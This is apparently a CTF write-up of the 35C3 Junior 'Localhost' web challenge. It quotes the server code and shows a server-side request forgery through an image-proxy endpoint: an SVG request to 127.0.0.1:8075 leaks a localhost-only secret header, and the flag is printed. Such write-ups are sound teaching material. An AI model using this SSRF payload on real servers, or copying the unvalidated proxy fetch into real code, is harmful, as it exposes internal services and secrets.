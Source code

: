 # Localhost

>Solves: 69

>We came up with some ingenious solutions to the problem of password reuse. For users, we don't use password auth but send around mails instead. This works well for humans but not for robots. To make test automation possible, we didn't want to send those mails all the time, so instead we introduced the localhost header. If we send a request to our server from the same host, our state-of-the-art python server sets the localhost header to a secret only known to the server. This is bullet-proof, luckily.

>http://35.207.132.47/

>Difficulty Estimate: Medium

## Analysis

This is another one of wee challenges so source code is available in /pyserver/server.py.

Mechanism for discovering LOCALHOST flag is discovered in following code:

```python

if not request.path[-3:] in ["jpg", "png", "gif"]:
        response.headers["X-Frame-Options"] = "SAMEORIGIN"
        response.headers["X-Xss-Protection"] = "1; mode=block"
        response.headers["X-Content-Type-Options"] = "nosniff"
        response.headers["Content-Security-Policy"] = "script-src 'self' 'unsafe-inline';"
        response.headers["Referrer-Policy"] = "no-referrer-when-downgrade"
        response.headers["Feature-Policy"] = "geolocation 'self'; midi 'self'; sync-xhr 'self'; microphone 'self'; " \
                                             "camera 'self'; magnetometer 'self'; gyroscope 'self'; speaker 'self'; " \
                                             "fullscreen *; payment 'self'; "
        if request.remote_addr == "127.0.0.1":
            response.headers["X-Localhost-Token"] = LOCALHOST

    return response
```

If request path does not end in "jpg", "png" or "gif" and remote address is equal to 127.0.0.1 flag is discovered.

## Solution
NOTE: Solution requires being already logged in, see (logged in writeup)[https://github.com/HackThisSite/CTF-Writeups/tree/master/2018/35C3-Junior/Logged-in]
Since it's necessary that request originates from localhost I started searching for some kind of proxying functionality in code and found "/api/proxyimage".

```python
@app.route("/api/proxyimage", methods=["GET"])
def proxyimage():
    url = request.args.get("url", '')
    parsed = parse.urlparse(url, "http")  # type: parse.ParseResult
    if not parsed.netloc:
        parsed = parsed._replace(netloc=request.host)  # type: parse.ParseResult
    url = parsed.geturl()

    resp = requests.get(url)
    if not resp.headers["Content-Type"].startswith("image/"):
        raise Exception("Not a valid image")

    # See https://stackoverflow.com/a/36601467/1345238
    excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
    headers = [(name, value) for (name, value) in resp.raw.headers.items()
               if name.lower() not in excluded_headers]

    response = Response(resp.content, resp.status_code, headers)
    return response

```

It requires response's Content-Type to start with image or it throws out error, but flag giving mechanism blocked gif, png and jpg files.
Luckily for us those are not only image formats, on frontpage there is svg file http://35.207.132.47/img/paperbots.svg which satisfies all our conditions.

We can try to get flag with http://35.207.132.47/api/proxyimage?url=http://127.0.0.1/img/paperbots.svg and...we get a Connection Refused error.
Perhaps it's not ran on port 80? Indeed examining source code discovers following: ```app.run(host="0.0.0.0", port=8075)```

We retry with http://35.207.132.47/api/proxyimage?url=http://127.0.0.1:8075/img/paperbots.svg and get a flag in X-Localhost-Token

35C3_THIS_HOST_IS_YOUR_HOST_THIS_HOST_IS_LOCAL_HOST

